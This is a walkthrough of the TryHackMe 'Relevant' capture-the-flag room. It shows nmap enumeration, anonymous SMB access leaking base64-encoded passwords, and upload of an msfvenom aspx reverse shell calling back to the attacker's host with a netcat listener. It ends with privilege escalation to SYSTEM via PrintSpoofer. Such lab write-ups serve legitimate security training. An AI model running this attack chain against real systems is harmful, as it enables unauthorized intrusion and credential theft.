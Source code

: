 ```yaml
---
title: TryHackMe Relevant
date: 2025-01-07
categories: CTFs
tags: tryhackme
---
```


![](/assets/img/relevant/relevant.jpeg)

# Information Gathering
We are given the following

> You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 
> 
> Scope of Work
> 
> The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:
> 
> User.txt
> Root.txt
> Additionally, the client has provided the following scope allowances:
> 
> Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
> Locate and note all vulnerabilities found
> Submit the flags discovered to the dashboard
> Only the IP address assigned to your machine is in scope
> Find and report ALL vulnerabilities (yes, there is more than one path to root)
> (Roleplay off)
> 
> I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.
> Note - Nothing in this room requires Metasploit
> 
> Machine may take up to 5 minutes for all services to start.
> 
> **Writeups will not be accepted for this room.**

The target IP is `10.10.154.250`.

Our objectives are to

1. Locate and secure the `User.txt` file,
2. Locate and secure the `Root.txt` file, and
3. Find and report all vulnerabilities on the target host.

# Enumeration
We begin with the nmap scan `nmap -T5 -PS -sT -sV -sC -O 10.10.154.250` and receive the following output:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-07 10:09 EST
Nmap scan report for 10.10.154.250
Host is up (0.10s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods:
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-01-07T15:10:05+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2025-01-06T15:02:43
|_Not valid after:  2025-07-08T15:02:43
| rdp-ntlm-info:
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2025-01-07T15:09:25+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2016|2008|7 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2016 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery:
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-01-07T07:09:30-08:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2025-01-07T15:09:26
|_  start_date: 2025-01-07T15:03:00
|_clock-skew: mean: 1h36m00s, deviation: 3h34m42s, median: 0s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.39 seconds
```



The target appears to be a typical windows server hosting a webs server on port `80/TCP` and SMB on the typical ports, `139/TCP`
and `445/TCP`. It appears that on port `3389/TCP`, an RDP instance is running.  

A more thorough scan, of all the TCP ports, reveals the following additional services:
```
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```
For good measure, we enumerate the SMB shares with `nmap --script samba-enum-shares.nse -p 445 10.10.154.250`:

```
Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.154.250\ADMIN$:
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.154.250\C$:
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.154.250\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.10.154.250\nt4wrksv:
|     Type: STYPE_DISKTREE
|     Comment:
|     Anonymous access: <none>
|_    Current user access: READ/WRITE
```
**Vulnerability:**
We successfully authenticate to the `\\10.10.154.250\nt4wrksv` share anonymously and locate a file named `passwords.txt`.
This file contains

```
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
Presumably, the file contains a pair of base64-encoded passwords. We decode them using `echo '<LINE>' | base64 -d` for each line`LINE`. This uncovers the following

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

Perhaps, we can use these credentials to authenticate to an RDP session. We would need to identify some usernames, however.
Attempting to sign in through RDP using `xfreerdp /v:10.10.154.250 /u:<USER> /p:<PASS>` for each combination of the strings
`Bob`, `Bill`, `!P@$$W0rD!123`, and `Juw4nnaM4n420696969!$$$` fails. This suggests that we should pursue another attack vector.

Next, we fuzz for directories on the http server on port `80/TCP` using `ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.154.250 -ic`, but we find nothing.

Instead, we fuzz for directories on the alternate web server on port `TCP/49663` with `ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.112.186:49663/FUZZ -ic`.

We find the endpoint `http://10.10.112.186:49663/nt4wrksv`, which matches the name of the SMB share to which we previously authenticated.

# Exploitation
Upon visiting `http://10.10.112.186:49663/passwords.txt`, we find the same file we found in the SMB share. This indicates that
the server is hosting files from the share.

We generate an aspx reverse shell with `msfvenom -p windows/shell/reverse_tcp -f aspx -o shell.aspx LHOST=10.6.4.176`.

We then upload the shell to the share with  the commands`smbclient //10.10.112.186/nt4wrksv` and `put shell.aspx shell.aspx`. Afterward,
we set up a netcat listener with `nc -lvnp 4444`.
Upon navigating to `http://10.10.112.186:49633/shell.aspx`, we receive a shell as `iis apppool\defaultapppool`.

As we are searching for the `User.txt` file we run the command `where /R c:\ User.txt` to locate it. This reveals that it
is found at `c:\Users\Bob\Desktop\User.txt`.

We then navigate to the directory and obtain the user flag: 

![](/assets/img/relevant/User.txt.png)

# Post-Exploitation
Running, `whoami /all` reveals that we possess the `SeImpersonate` privilege. To exploit this we, use `PrintSpoofer.exe` (The
source code may be located at [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)). We
simply upload the executable using `smbclient` and run it.

This gives us a root shell, so we use `where /R c:\ Root.txt` to locate the root flag. This tells us that the flag is located 
at `c:\Users\Administrator\Desktop`. We navigate to this directory and capture the flag:

![](/assets/img/relevant/root.txt.png)
